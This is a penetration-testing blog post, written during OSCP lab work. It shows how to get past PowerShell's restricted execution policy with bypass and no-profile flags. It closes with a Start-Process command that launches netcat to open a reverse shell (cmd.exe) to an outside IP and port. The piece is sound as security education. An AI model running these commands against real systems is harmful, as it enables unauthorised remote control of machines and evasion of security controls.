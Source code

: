```yaml
---
layout: post
title:  "Powershell For Penetration Testers Beating Restricted Policies"
author: nanobyte
date:   2020-05-23
description: PowerShell for Penetration Testing, and how to beat restricted policies to run commands and scripts
tags: PowerShell
---
```


Recently, while I was going for my Offensive Security Certified Professional (OSCP) certificate, I ran into a machine in the labs which had a restricted PowerShell. Simply stated, I could not enter into an interactive PowerShell session or run any PowerShell scripts. PowerShell has several execution policies which can be set on a system, and these execution policies determines which scripts can be run. By default, this is set to "restricted". From Microsoft, restricted "doesn't load configuration files or run scripts. The default execution policy Windows client computers."

However, there is an execution policy which, as penetration testers, we want to have set. That execution policy is "bypass", which states "nothing is blocked and there are no warnings or prompts." Luckily, we are able run a command or script with PowerShell's execution policy bypass set. Now, even though the default restricted policy is set, our commands will still run. To run a PowerShell command with bypass:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -Command "whoami"
{% endhighlight %}

Or, for shorthand:

{% highlight bash linenos %}
powershell -exec bypass -c "whoami"
{% endhighlight %}

Even though the system is restricted, PowerShell can still be leveraged! Let's build on this and take it another step further. When you enter a PowerShell session or run a script, you run it in the context of the current profile. I could check the PowerShell profile and see what is set. But by running commands without checking this first, I do not know what is within these profiles. Alternatively, for best practices, I can supply the No Profile flag which will run my script without using any profile:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -NoProfile -Command "whoami"
{% endhighlight %}

Or, another shorthand:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "whoami"
{% endhighlight %}

With this, I can run commands from a restricted PowerShell enviornment without any profile loading. We are almost at the end goal, to execute a command on the system. If we wished to spawn a process, PowerShell has the built in Start-Process cmdlet (command-let). A cmdlet is a lightweight command that can be used within a PowerShell enviornment. There is most likely a cmdlet for anything you wish to accomplish in PowerShell. In my case, I wanted to start netcat for a reverse shell.

Start-Process is a powerful cmdlet, and to better understand it visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7" target="_blank">docs.microsoft</a>. For my case, I needed to first define the program to spawn, followed by the arguments. Simply calling `Start-Process nc -e cmd.exe <IP> <PORT>` would fail here. To properly spawn this new process:
  
{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process $prog $args }"
{% endhighlight %}

Now, my command will call PowerShell with a bypass in the execution policy, to run the command without any profile set, and run my Start-Process command, properly passing the $prog and $args variables. Now, you might be asking, where did the ampersand come from? In PowerShell, the ampersand is a reserved character for a run call operator. This call operator is needed to force PowerShell to treat the text as a command and not a string, and execute it. For more information, please visit <a href="https://ss64.com/ps/call.html" target="_blank">ss64.com</a>.

And that is it, the above command will now spawn a new process, bypassing the restricted PowerShell execution policy to run my command! 
